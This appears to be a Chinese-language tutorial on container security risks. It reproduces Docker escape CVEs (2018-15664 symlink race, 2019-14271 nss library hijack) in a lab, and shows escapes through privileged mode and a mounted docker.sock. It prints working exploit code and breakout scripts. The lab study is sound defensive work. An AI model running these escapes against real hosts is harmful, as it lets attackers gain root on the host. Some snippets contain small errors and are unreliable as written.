# 容器安全

# [](#%E5%AE%B9%E5%99%A8%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E7%9A%84%E5%AE%89%E5%85%A8%E9%A3%8E%E9%99%A9%E5%88%86%E6%9E%90)容器基础设施的安全风险分析

在云原生生态中已经有很多种不同的容器运行时实现，但考虑到稳定性和使用的广泛程度，下面仍以 docker 为例进行分析。



从容器镜像、活动容器、容器网络、容器管理接口、宿主机操作系统和软件漏洞等六方面来分析容器基础设施可能存在的风险。

## [](#1-%E9%92%88%E5%AF%B9%E5%AE%B9%E5%99%A8%E5%BC%80%E5%8F%91%E6%B5%8B%E8%AF%95%E8%BF%87%E7%A8%8B%E4%B8%AD%E7%9A%84%E6%94%BB%E5%87%BB%E6%A1%88%E4%BE%8B)1 针对容器开发测试过程中的攻击案例

### [](#11-%E8%83%8C%E6%99%AF)1.1 背景

1.  docker cp 命令

> docker cp 命令用于在 Docker 创建的容器中与宿主机文件系统之间进行文件或目录复制。

2.  符号链接

> 符号链接 - 软连接。类似于 windows 上的快捷方式 在 linux 中创建符号链接：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ln -s target_path link_path<br>``` |

### [](#12-cve-2018-15664---%E7%AC%A6%E5%8F%B7%E9%93%BE%E6%8E%A5%E6%9B%BF%E6%8D%A2%E6%BC%8F%E6%B4%9E)1.2 CVE-2018-15664 - 符号链接替换漏洞

影响版本：Docker 在 `17.06.0-ce～17.12.1-ce:rc2`，`18.01.0-ce～18.06.1-ce:rc2` 版本范围内受该漏洞影响

#### [](#121-%E5%8E%9F%E7%90%86)1.2.1 原理

漏洞 poc 参考作者 Aleksa Sarai 公布的 poc 文件：[https://seclists.org/oss-sec/2019/q2/131](https://seclists.org/oss-sec/2019/q2/131)

CVE-2018-15664 实际上是一个 `TOCTOU`(time-of-check to time-of-use) 的问题。当用户执行 `docker cp` 命令后，Docker 守护进程接收到请求，会对用户给出的复制路径进行检查。如果路径中有容器内部的符号链接，则现在容器内部将其解析成对应的路径字符串，留待后用。

如果在 Docker 守护进程检查复制路径时，攻击者在这里先放置一个非符号链接的的常规文件或目录，检查结束后，攻击者在 Docker 守护进程使用路径前将其替换为一个符号链接，那么这个符号链接就会被打开时在宿主机上解析，从而导致目录穿越。

#### [](#122-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)1.2.2 漏洞复现

利用 [metarget](https://github.com/Metarget/metarget) 快速搭建 CVE-2018-15664 环境：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./metarget cnv install cve-2018-15664<br>``` |

下载并解压 [PoC](https://github.com/brant-ruan/cloud-native-security-book/tree/main/code/0302-%e5%bc%80%e5%8f%91%e4%be%a7%e6%94%bb%e5%87%bb/02-CVE-2018-15664/symlink_race)



其中， build 目录包含了用来编译 EXP 的 Dockerfile 和漏洞利用源代码 symlink\_swap.c

注意

构建镜像时，在容器内安装 gcc 时报错，可以先在宿主机将 symlink\_swap 编译好，再 COPY 到容器中。

修改后的 Dockerfile：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```dockerfile<br># Build the binary.<br>FROM opensuse/tumbleweed<br># RUN zypper in -y gcc glibc-devel-static<br>RUN mkdir /builddir<br>COPY symlink_swap.c /builddir/symlink_swap.c<br># RUN gcc -Wall -Werror -static -lpthread -o /builddir/symlink_swap /builddir/symlink_swap.c<br>COPY symlink_swap /builddir/symlink_swap<br><br># Set up our malicious rootfs.<br>FROM opensuse/tumbleweed<br>ARG SYMSWAP_TARGET=/w00t_w00t_im_a_flag<br>ARG SYMSWAP_PATH=/totally_safe_path<br>RUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET"<br>COPY --from=0 /builddir/symlink_swap /symlink_swap<br>ENTRYPOINT ["/symlink_swap"]<br>``` |

Dockerfile 的主要内容是构建漏洞利用程序，并将其放在容器的根目录下，并在根目录下创建一个 `w00t_w00t_im_a_flag` 文件，内容为：`FAILED -- INSIDE CONTAINER PATH`。容器启动后执行的程序(`Entrypoint`) 即为：symlink\_swap。

Symlink\_swap.c 内容：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```c<br>/*<br>     * Now create a symlink to "/" (which will resolve to the host's root if we<br>     * win the race) and a dummy directory at stash_path for us to swap with.<br>     * We use a directory to remove the possibility of ENOTDIR which reduces<br>     * the chance of us winning.<br>     */<br>    if (symlink("/", symlink_path) < 0)<br>        bail("create symlink_path");<br>    if (mkdir(stash_path, 0755) < 0)<br>        bail("mkdir stash_path");<br><br>    /* Now we do a RENAME_EXCHANGE forever. */<br>    for (;;) {<br>        int err = rrenameat2(AT_FDCWD, symlink_path,<br>                            AT_FDCWD, stash_path, RENAME_EXCHANGE);<br>        if (err < 0)<br>            perror("symlink_swap: rename exchange failed");<br>    }<br>    return 0;<br>}<br>``` |

在容器内创建指向根目录的符号链接，并不断地交换符号链接(由命令行参数传入，如「totaly\_safe\_path」)与一个正常的目录(如：「totaly\_safe\_path-stashed」)的名字。

run\_read.sh : 实现读取宿主机文件内容的 shell 脚本

run\_write.sh : 实现在宿主机写文件的 shell 脚本

以 `run_write.sh` 为例：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```sh<br>SYMSWAP_PATH=/totally_safe_path<br>SYMSWAP_TARGET=/w00t_w00t_im_a_flag<br><br># Create our flag.<br>echo "FAILED -- HOST FILE UNCHANGED" \| sudo tee "$SYMSWAP_TARGET"<br>sudo chmod 0444 "$SYMSWAP_TARGET"<br><br># Run and build the malicious image.<br>docker build -t cyphar/symlink_swap \<br>	--build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \<br>	--build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/<br>ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")<br><br>echo "SUCCESS -- HOST FILE CHANGED" \| tee localpath<br><br># Now continually try to copy the files.<br>while true<br>do<br>	docker cp localpath "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET"<br>done<br>``` |

run\_write.sh 启动后恶意容器运行，然后不断执行 docker cp 命令



### [](#13-cve-2019-14271)1.3 CVE-2019-14271

影响 Docker 19.03.x before 19.03.1

#### [](#131-%E5%8E%9F%E7%90%86)1.3.1 原理

docker cp 命令依赖的 docker-tar 组件会加载容器内部的 nsswitch 动态链接库，攻击者可以通过劫持容器内部的 nsswitch 来实现代码的注入，获得宿主机上的 root 权限的代码执行能力。

用户在执行 docker cp 后，Docker 守护进程启动 `docker-tar` 进程来完成复制。以「从容器内文件复制到宿主机为例」，它会切换进程的根目录(执行 chroot)到容器根目录，将需要复制的文件打包，然后传递给 Docker 守护进程，Docker 守护进程负责将内容解析到用户指定的宿主机目标路径。

chroot 的操作主要是为了避免符号链接导致的路径穿越问题，但存在漏洞版本的 `docker-tar` 会加载必要的动态链接库，主要以 `libness_` 开头的 nsswitch 动态链接库。chroot 切换根目录后，`docker-tar` 将加载容器内部的动态链接库。

漏洞利用过程如下：

-   找出 `docker-tar` 具体会加载哪些容器内的动态链接库。
-   下载对应的动态链接库源码，增加 `__attribute__` 属性的函数 `run_at_link`(该函数在动态链接库被加载时首先执行)
-   等待 docker cp 触发漏洞

#### [](#132-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)1.3.2 漏洞复现

##### [](#1321-%E7%A1%AE%E5%AE%9A%E7%9B%AE%E6%A0%87)1.3.2.1 确定目标

确定 docker cp 执行中用到哪些容器内的动态链接库。

在存在漏洞的 Docker 环境中，创建容器：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker run -itd --name=test ubuntu<br>``` |

寻找容器在宿主机上的绝对路径：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker exec -it test cat /proc/mounts \| grep docker<br>``` |

返回结果包含：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>workdir=/var/lib/docker/overlay2/42549fa40947a72bc4f3ae8b8676297d774d4fe2f8afb7122717548b06861d85/work<br>``` |

容器在宿主机上的绝对路径即为：`/var/lib/docker/overlay2/42549fa40947a72bc4f3ae8b8676297d774d4fe2f8afb7122717548b06861d85/merged`

安装监控文件：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>apt install inotify-tools<br>``` |

监控文件夹：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>inotifywait -mr /var/lib/docker/overlay2/42549fa40947a72bc4f3ae8b8676297d774d4fe2f8afb7122717548b06861d85/merged/lib<br>``` |

执行 docker cp

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>docker cp test:/etc/passwd ./<br>``` |



可以看到加载了 `libnss_files-2.31.so`

##### [](#1322-%E6%9E%84%E5%BB%BA%E5%8A%A8%E6%80%81%E9%93%BE%E6%8E%A5%E5%BA%93)1.3.2.2 构建动态链接库

`libnss_*.so` 均在 Glibc 中，首先下载 Glibc 库到本地。

首先要注释掉 `gccwarn-c = -Wstrict-prototypes -Wold-style-definition`，避免加入 payload 后编译失败。



在 `./nss/nss_files` 目录下任意源码文件中添加 payload。以 `files-service.c` 为例。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>``` | ```c<br>// content should be added into nss/nss_files/files-service.c<br>#include <sys/types.h><br>#include <unistd.h><br>#include <stdio.h><br>#include <sys/wait.h><br><br># 容器内部原始 libnss_files.so.2 文件备份位置<br>#define ORIGINAL_LIBNSS "/original_libnss_files.so.2"<br># 恶意 libnss_files.so.2 文件位置<br>#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"<br> <br>bool is_priviliged();<br> <br>__attribute__ ((constructor)) void run_at_link(void) {<br>     char * argv_break[2];<br>  // 判断是否容器外是高权限执行，即 docker-tar<br>     if (!is_priviliged())<br>           return;<br> <br>  // 攻击执行一次即可，用原始的替换备份的库文件<br>  // 避免后续对环境产生影响<br>     rename(ORIGINAL_LIBNSS, LIBNSS_PATH);<br>  <br>    // 以 docker-tar 运行 /breakout 恶意脚本<br>  	if (!fork()) {<br>        // Child runs breakout<br>        argv_break[0] = strdup("/breakout");<br>        argv_break[1] = NULL;<br>        execve("/breakout", argv_break, NULL);<br>     }<br>     else<br>        wait(NULL); // Wait for child<br> <br>     return;<br>}<br><br>bool is_priviliged() {<br>     FILE * proc_file = fopen("/proc/self/exe", "r");<br>     if (proc_file != NULL) {<br>           fclose(proc_file);<br>           return false; // can open so /proc exists, not privileged<br>     }<br>     return true; // we're running in the context of docker-tar<br>}<br>``` |

编译：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```bash<br># 目录结构：<br>- gnu<br>	- glibc-2.27<br>	- glibc-build<br><br># 安装 bison<br>apt install bison<br># 新建 glibc-build 目录<br>mkdir glibc-build<br># 要到上级目录进行 config，不然会报错<br>./glibc-2.27/glibc-build/configure --prefix=/usr/<br># 编译<br>~/glibc-2.27/glibc-build make<br>``` |

##### [](#1323-%E9%80%83%E9%80%B8)1.3.2.3 逃逸

breakout 文件：

将 procfs 伪文件系统挂载到容器内，将 PID 为 1 的根目录 /proc/1/root 绑定挂载到容器内部即可。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```shell<br>#!/bin/bash<br><br>umount /host_fs && rm -rf /host_fs<br>mkdir /host_fs<br> <br> <br>mount -t proc none /proc     # mount the host's procfs over /proc<br>cd /proc/1/root              # chdir to host's root<br>mount --bind . /host_fs      # mount host root at /host_fs<br>``` |

首先创建 victim 容器：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker run -itd --name=victim ubuntu<br>``` |

将 breakout 脚本放到 victim 容器根目录。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker cp ./breakout victim:/breakout<br>``` |

进入容器，再将 `/lib/x86_64-linux-gnu` 下的 `libnss_files.so.2` 符号链接指向库文件移动到容器根目录下并重命名为 `original_libnss_files.so.2`，可以使用以下命令查看：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>readlink /lib/x86_64-linux-gnu/libnss_files.so.2<br><br>mv /lib/x86_64-linux-gnu/libnss_files.so.2 /original_libnss_files.so.2<br>``` |

最后将构建好的恶意 `libnss_files.so` 重命名为 `libnss_files.so.2`，放到容器内 `/lib/x86_64-linux-gnu` 下。

模拟用户执行 docker cp 操作：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker cp victim:/etc/passwd ./<br>``` |

执行后，漏洞被触发，容器内部已经能看到挂载的 `/host_fs`，其中的 `/etc/hostname` 显示的即为宿主机的 `hostname`。



## [](#2-%E9%92%88%E5%AF%B9%E5%AE%B9%E5%99%A8%E8%BD%AF%E4%BB%B6%E4%BE%9B%E5%BA%94%E9%93%BE%E7%9A%84%E6%94%BB%E5%87%BB%E6%A1%88%E4%BE%8B)2 针对容器软件供应链的攻击案例

从用户角度来看，容器镜像在获取途径上，我们将其分为“从公共仓库获取”以及“从私有仓库获取”两种，那么对于从公共仓库获取的镜像，最重要的两个脆弱性问题：一方面是镜像中软件的安全漏洞问题；另一方面是镜像内的挖矿程序、后门程序、病毒、木马等恶意程序。

### [](#21-%E9%95%9C%E5%83%8F%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.1 镜像漏洞利用

镜像漏洞利用指的是镜像本身存在漏洞时，使用镜像创建并运行的容器也通常会存在 相同漏洞，攻击者利用镜像中存在的漏洞去攻击容器，往往具有事半功倍的效果。

例如，Alpine 是一个轻量化的 Linux 发行版，基于 musl libc 和 busybox 构建而成。由 于其体积较小，因此以 Alpine 为基础镜像构建软件是非常流行的。但 Alpine 镜像曾曝出一个漏洞：CVE-2019-5021。在 3.3 ~ 3.9 版本的 Alpine 镜像中，root 用户密码被设置为空，攻击者可能在攻入容器后借此提升到容器内部 root 权限。

官方对此的回应是，Alpine 镜像使用 busybox 作为核心工具链，通过 `/etc/security` 限制了可以登入 root 用户的 tty 设备。除非是用户主动安装 shadow 和 linux-pam 来代替默认工具链，否则这个漏洞并不好利用。

但是，安全防护注重全面性，具有明显的短板效应。假如用户真的出于某种需求替换了默认工具链呢？那么进入容器的攻击者借助此漏洞就能直接获得容器内部 root 权限了。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```dockerfile<br>FORM alpine:3.5<br>RUN apk add --no-cache shadow<br>RUN adduser -S non_root<br>USER non_root<br>``` |

### [](#22-%E9%95%9C%E5%83%8F%E6%8A%95%E6%AF%92)2.2 镜像投毒

镜像投毒是一个宽泛的话题。它指的是攻击者通过某些方式，如上传恶意镜像到公开 仓库、入侵系统后上传镜像到受害者本地仓库，以及修改镜像名称并假冒正常镜像等，欺骗、诱导受害者使用攻击者指定的恶意镜像创建并运行容器，从而实现入侵或利用受害者的主机进行恶意活动的行为。

根据目的不同，常见的镜像投毒有三种类型：投放恶意挖矿镜像、投放恶意后门镜像和投放恶意 exploit 镜像

## [](#3-%E9%92%88%E5%AF%B9%E5%AE%B9%E5%99%A8%E8%BF%90%E8%A1%8C%E6%97%B6%E7%9A%84%E6%94%BB%E5%87%BB)3 针对容器运行时的攻击

### [](#31-%E4%B8%8D%E5%AE%89%E5%85%A8%E9%85%8D%E7%BD%AE%E5%AF%BC%E8%87%B4%E7%9A%84%E5%AE%B9%E5%99%A8%E9%80%83%E9%80%B8)3.1 不安全配置导致的容器逃逸

Docker 已经将容器运行时的 Capabilities 黑名单机制改为如今的默认禁止所有 Capabilities，再以白名单方式赋予容器运行所需的最小权限。截止本文成稿时，Docker 默认赋予容器近 40 项权限中的 14 项：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```go<br>func DefaultCapabilities() []string {<br>	return []string{<br>		"CAP_CHOWN",<br>		"CAP_DAC_OVERRIDE",<br>		"CAP_FSETID",<br>		"CAP_FOWNER",<br>		"CAP_MKNOD",<br>		"CAP_NET_RAW",<br>		"CAP_SETGID",<br>		"CAP_SETUID",<br>		"CAP_SETFCAP",<br>		"CAP_SETPCAP",<br>		"CAP_NET_BIND_SERVICE",<br>		"CAP_SYS_CHROOT",<br>		"CAP_KILL",<br>		"CAP_AUDIT_WRITE",<br>	}<br>}<br>``` |

无论是细粒度权限控制还是其他安全机制，用户都可以通过修改容器环境配置或在运行容器时指定参数来缩小或扩大约束。如果用户为不完全受控的容器提供了某些危险的配置参数，就为攻击者提供了一定程度的逃逸可能性。

#### [](#311-privileged-%E7%89%B9%E6%9D%83%E6%A8%A1%E5%BC%8F%E8%BF%90%E8%A1%8C%E5%AE%B9%E5%99%A8)3.1.1 privileged 特权模式运行容器

当操作者执行 `docker run --privileged` 时，Docker 将允许容器访问宿主机上的所有设备，同时修改 AppArmor 或 SELinux 的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。

以特权模式和非特权模式创建了两个容器，其中特权容器内部可以看到宿主机上的设备：



攻击者可以直接在容器内部挂载宿主机磁盘，然后将根目录切换过去：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```shell<br>mkdir host<br>mount /dev/sda /host<br>``` |

### [](#32-%E5%8D%B1%E9%99%A9%E6%8C%82%E8%BD%BD%E5%AF%BC%E8%87%B4%E7%9A%84%E5%AE%B9%E5%99%A8%E9%80%83%E9%80%B8)3.2 危险挂载导致的容器逃逸

为了方便宿主机与虚拟机进行数据交换，虚拟化解决方案都会提供挂载宿主机目录到虚拟机的功能。容器同样如此。然而，将宿主机上的敏感文件或目录挂载到容器内部 - 当受控容器存在不安全的挂载时，会造成严重的问题。

#### [](#321-%E6%8C%82%E8%BD%BD-docker-socket-%E7%9A%84%E6%83%85%E5%86%B5)3.2.1 挂载 Docker Socket 的情况

Docker Socket 是 Docker 守护进程监听的 Unix 域套接字，用来与守护进程通信 - 查询信息或下发命令。如果在攻击者可控的容器内挂载了该套接字文件（`/var/run/docker.sock`），容器逃逸就相当容易了，除非有进一步的权限限制。



复现过程：

1.  首先创建一个容器并挂载 `/var/run/docker.sock`；
2.  在该容器内安装 Docker 命令行客户端；
3.  接着使用该客户端通过 Docker Socket 与 Docker 守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部；
4.  在新容器内执行 `chroot` 将根目录切换到挂载的宿主机根目录。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker run -itd --name demo -v /var/run/docker.sock:/var/run/docker.sock ubuntu<br>``` |



利用 [CDK](https://github.com/cdk-team/CDK/) 进行进行检查：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./cdk run docker-sock-check /var/run/docker.sock<br>``` |

